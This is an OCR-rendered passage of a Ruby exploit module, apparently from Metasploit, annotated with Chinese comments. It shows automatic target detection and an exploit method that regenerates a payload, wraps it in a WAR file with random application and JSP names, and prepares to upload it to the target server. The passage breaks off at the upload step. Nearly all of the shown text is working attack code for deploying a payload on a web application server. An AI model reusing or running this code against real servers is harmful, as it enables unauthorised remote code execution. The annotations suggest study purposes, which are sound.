 ```
    vprint_status("Target is #{detect_platform(res.body)} #{detect_arch(res.body)}")
    return CheckCode::Appears
  end

  # 尝试连接目标主机    
  def auto_target
    print_status("Attempting to automatically select a target...")

    res = query_serverinfo()
    return nil if not res

    plat = detect_platform(res.body)
    arch = detect_arch(res.body)

    # 对 arch 参数进行检查。如果没有则返回
    if (not arch or not plat)
      return nil
    end

    # 查看是否已经连接成功
    targets.each { |t|
      if (t['Platform'] == plat) and (t['Arch'] == arch)
        return t
      end
    }

    # 如果没有目标匹配，则返回
    return nil
  end

  # 攻击模块的代码
  def exploit
    mytarget = target
    if (target.name =~ /Automatic/)
      mytarget = auto_target
      if (not mytarget)
        fail_with(Failure::NoTarget, "Unable to automatically select a target")
      end
      print_status("Automatically selected target \"#{mytarget.name}\"")
    else
      print_status("Using manually select target \"#{mytarget.name}\"")
    end

    # 重新生成 payload 如果 auto-magic 发生改变。
    p = exploit_regenerate_payload(mytarget.platform, mytarget.arch)

    # Generate the WAR containing the EXE containing the payload
    jsp_name = rand_text_alphanumeric(4+rand(32-4))
    app_base = rand_text_alphanumeric(4+rand(32-4))

    # 生成的 war 包含 payload
    war = p.encoded_war({
        :app_name => app_base,
        :jsp_name => jsp_name,
        :arch => mytarget.arch,
        :platform => mytarget.platform
      }).to_s

    query_str = "?path=/" + app_base

    #
    # UPLOAD
    #
```